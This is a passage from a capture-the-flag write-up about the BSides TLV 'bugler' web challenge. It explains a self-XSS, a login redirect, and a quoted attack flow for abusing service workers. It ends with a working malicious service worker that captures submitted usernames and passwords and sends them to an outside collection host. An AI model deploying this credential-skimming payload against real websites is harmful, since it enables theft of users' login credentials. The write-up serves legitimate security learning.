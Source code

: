 A self-XSS is an XSS that is only visible to the user himself (e.g. only when logged in as himself). Usually there's not much we can do with that.

Another fact that we note is that the login page has a redirect capability. For example, if we send a user which isn't logged in to `https://bugler.ctf.bsidestlv.com/profile/9e7259c7513a4ec8`, he'll be redirected to `https://bugler.ctf.bsidestlv.com/login?next=%2Fprofile%2F9e7259c7513a4ec8` and after logging in arrive to the original link.

Again, it isn't clear how we can currently use this information. 


Well, at least until we find [this page](https://blogs.akamai.com/sitr/2020/01/abusing-the-service-workers-api.html), that is. The article, by Daniel Abeles (who not-so-much-by-chance is also the co-author of the challenge), explains in details how to attack a website with the exact same vulnerabilities. 

The important part is here:

> ## Attack Flow
> 
> First, the attacker uploads the malicious service worker to the website (using the file upload functionality). Then, he tricks the victim to visit the attacker's controlled page. That page has an iframe that will cause the user to logout, and login again as the attacker (using the attacker credentials). Once the user is logged in, the attacker will redirect him to the /profile page, thereby triggering the self-XSS. In turn, the XSS payload will register the malicious service worker and log him out again.
> 
> In this stage, the user is logged out from the system. When the user tries to log in again, the malicious service worker will kick in on his user context, resulting in a persistent XSS (in contrast to the self-XSS we had before).

So let's do exactly that:

First, we upload a malicious service worker to the website, using the file upload functionality:

```javascript
self.addEventListener('install', (event) => {
   fetch('https://endlbdl92l0m4.x.pipedream.net/?install')
});

self.addEventListener('activate', (event) => {
   fetch('https://endlbdl92l0m4.x.pipedream.net/?activate')
});

self.addEventListener('fetch', (event) => {
    e = event.request.clone();
    if (event.request.method == 'POST') 
    {
        event.request.formData().then((form_data) => {
            fetch('https://endlbdl92l0m4.x.pipedream.net/?username=' + form_data.get('username') + '&pass=' + form_data.get('password'))
        });
    }
    event.respondWith(fetch(e));
});
```
